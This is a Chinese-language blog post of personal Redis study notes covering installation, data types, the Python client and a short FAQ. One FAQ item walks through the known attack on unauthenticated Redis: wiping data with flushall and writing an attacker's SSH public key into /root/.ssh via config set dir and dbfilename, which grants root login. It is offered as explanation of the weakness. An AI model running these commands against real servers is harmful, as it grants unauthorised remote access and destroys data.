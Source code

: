 ```yaml
---
layout: post
date:   2017-06-06 20:15:00 +0800
categories: nosql
---
```


当我真正的接触到了Redis的时候，我被它的速度震惊了，因为它甚至比python内置的数据结构还要快。
在学习redis之前有几个问题可以先思考一下

1.系统的瓶颈出现在哪里？
IO读写，涉及到了磁盘操作，而这里速度是影响性能的主要因素
寄存器->内存->磁盘
依次是，存储量变大，但速度变慢。
2.NoSql是什么？
数据库有关系型数据库，结构化存储，支持SQL语句，这是我们所熟悉的，也是技术比较成熟的。
还有一种not only sql,例如redis通过key-value存储数据。
3.数据的持久化保存和速度之间的矛盾如何解决
要想持久化就不可避免的应用到磁盘，速度会下降，如何解决这两个矛盾呢？

Redis出现了，说起它的作者，你可能用过他写的另一个工具hping。
Redis有哪些特点？

1.数据可以存储到磁盘，提高可靠性
2.数据存放在内存中，可以定时保存到存储中。
3.多种数据结构的支持。

redis安装和使用

在linux上通过源码编译安装。
redis本身没有提供windows版本，但微软公司维护了一份可在windows用的redis,但是网络好像不通。
从下面这个地址获取windos版本的编译好的二进制redis文件
https://github.com/dmajkic/redis/downloads
redis-server默认会占用系统的6379号端口。
redis有多种客户端，但其本质都是连接到server，然后执行命令。

redis的配置

redis.conf文件是配置文件。

redis的数据类型

键与值在计算机术语中很常见了。
我通过python接口来学习了。
import redis
conn = redis.Redis()
1.字符串：

redis-cli中
设置键和值
set key value
获取键对应的值
get key

2.列表


3.哈希表


4.集合


5.有序集合


6.位图



总结：对于我们不了解的技术总是心生畏惧，可但凡你投入几个小时学习一下，你就话发现一片崭新的天地。

## install
```
cd redis-3.2.9
make
make install
cd utils
./install_server.sh

```

如下配置
```
Selected config:
Port           : 6379
Config file    : /etc/redis/6379.conf
Log file       : /var/log/redis_6379.log
Data dir       : /var/lib/redis/6379
Executable     : /usr/local/bin/redis-server
Cli Executable : /usr/local/bin/redis-cli

```

### 安装python接口
```
cd redis-2.10.5
python setup.py install
```
### FAQ
1. 如何配置密码？
/etc/redis/6379.conf 配置requirepass helloworld

pkill redis-server

2. 如何进行鉴权？

在用户层面只要这样就可以了
auth passsword

在实现层面会更复杂

3. python客户端做了哪些事？

例如数据库返回OK，则python把它转化为True

4.redis漏洞利用

我认为该漏洞的核心在于redis key的value竟然是明文存储的

ref:
[https://zhuoroger.github.io/2016/07/29/redis-sec/](https://zhuoroger.github.io/2016/07/29/redis-sec/)

Your public key has been saved in /root/.ssh/id_rsa.pub

echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n"
 
/root/.ssh/authorized_keys 这个是存放公钥的文件，如果这个文件中存放了别人的公钥，那么别人就可以利用他对应的私钥面密登陆。
 
如果Redis 绑定在 0.0.0.0:6379，并且没有开启认证（这是Redis 的默认配置），如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，将会导致 Redis 服务直接暴露在公网上，导致其他用户可以直接在非授权情况下直接访问Redis服务并进行相关操作。
```
config get dir
1) "dir"
2) "/var/lib/redis/6379
```

```
flushall

config set dir /root/.ssh/

config set dbfilename authorize_keys

cat r.txt |redis-cli  -a redispassword -x set a
```

4.使用redis作为django的缓存

reference:

[https://github.com/niwinz/django-redis](https://github.com/niwinz/django-redis)
